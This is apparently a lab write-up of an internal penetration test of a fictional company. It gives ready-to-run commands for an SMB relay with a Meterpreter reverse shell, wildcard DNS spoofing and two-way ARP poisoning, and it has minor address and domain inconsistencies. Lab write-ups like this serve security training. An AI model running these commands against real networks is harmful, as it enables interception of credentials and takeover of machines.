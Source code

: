 # Internal Penetration Test – Slytherin Solutions

## Scenario

You have been hired by Slytherin Solutions, a mid-sized technology company, to conduct a security assessment. The company wants to evaluate potential risks within its internal network and has authorized a controlled penetration test within the defined scope.

**Scope & Rules of Engagement**

- The penetration test is internal, meaning you are connected directly to their LAN.

- The network range for testing is 192.168.50.0/24.

- No credential brute-forcing to avoid locking out user accounts.

- Focus on network-based attacks, specifically SMB Relay and DNS spoofing.


**Objectives**

- Exploit misconfigurations using SMB Relay Attack.

- Manipulate network traffic using dnsspoof to redirect victims.


**Skills & Techniques Covered**

* Performing SMB Relay attacks against patched systems.
* Using dnsspoof to manipulate network traffic and redirect requests.
* Leveraging Metasploit for exploitation and session management.

**Tools Required**

- dnsspoof (for ARP and DNS spoofing)

- Metasploit Framework (for SMB relay exploitation)

## SMB Relay Attack Execution
In this scenario, I launched an SMB Relay Attack to intercept and relay authentication requests from a client machine to a target system, ultimately gaining a Meterpreter shell.

**Attack Flow**

* A client machine (192.168.50.12, running Windows 7) automatically attempts an SMB connection to \\fileserver.slytherin.com\wallet$ every 30 seconds.

* The attacker machine (192.168.50.23) spoofs the IP address of fileserver.slytherin.com to redirect SMB traffic.
* The client unknowingly connects to the attacker's machine instead of the real fileserver.slytherin.local.
*  The SMB Relay exploit (running on the attacker machine) captures and relays the authentication request to a vulnerable target (192.168.50.4).
*  The exploit successfully authenticates on the target and delivers a Windows Meterpreter shell, granting access to the system.

**Attack Execution**

Step 1: Start msfconsole and configure the SMB Relay exploit

````bash
msfconsole
use exploit/windows/smb/smb_relay
set SRVHOST 192.168.50.23
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.50.23
set SMBHOST 192.168.50.4
exploit
````

[image](https://github.com/TheThreatTitan/My-Portfolio/blob/main/Offensive-Security/Images/smbr4_LI.jpg)

Step 2: In a new tab, configure dnsspoof in order to redirect the victim to our Metasploit system every time there's an SMB connection to any host in the domain: slytherin.com. Create a file with fake dns entry with all subdomains of
slytherin.com pointing to our attacker machine.

````bash
echo "192.168.50.23 *.slytherin.com" > hosts
````

- run dns spoof in the same tab

````bash
dnsspoof -i eth1 -f hosts
````

image

Step 3: Activate the MiTM attack using the ARP Spoofing technique. My goal is to poison the traffic between my victim, Windows 7 at 192.168.50.12, and the default gateway at 192.168.50.1. In this way, I can manipulate the traffic using dnsspoof, which is already running. 
In order to perform an ARP Spoofing attack, I enabled the IP forwarding as follow in a new tab (3):

````bash
echo 1 > /proc/sys/net/ipv4/ip_forward
````

In two separate terminals, start the ARP Spoof attack against 192.168.50.12 and 192.168.50.1 using these commands:

````bash
arpspoof -i eth1 -t 192.168.50.12 192.168.50.1
arpspoof -i eth1 -t 192.168.50.1 192.168.50.12
````
[image](https://github.com/TheThreatTitan/My-Portfolio/blob/main/Offensive-Security/Images/smbr2_LI.jpg)

[image](https://github.com/TheThreatTitan/My-Portfolio/blob/main/Offensive-Security/Images/smbr3_LI.jpg)

So, every time the victim starts an SMB connection, dnsspoof aligned with the ARP Spoof attack, forges the DNS replies telling that the searched DNS address is hosted at the attacker machine:


Instead of getting a DNS response with the real IP address of fileserver.slytherin.com, it received the IP of the attacker: 192.168.50.23. In Metasploit, every time there is an incoming SMB connection, the SMB Relay exploit
grabs the SMB hashes (credentials) and then uses them to get a shell on the target machine (192.168.5.4) - since it was set in the SMBHOST field of the smb-relay exploit.

[image](https://github.com/TheThreatTitan/My-Portfolio/blob/main/Offensive-Security/Images/smbr5_LI.jpg)

## Key Takeaway
In this lab, I were able to trick the client by spoofing DNS records, this, in turn, combined with SMB relay attack, provided us with a meterpreter session on the target machine with administrative privileges.
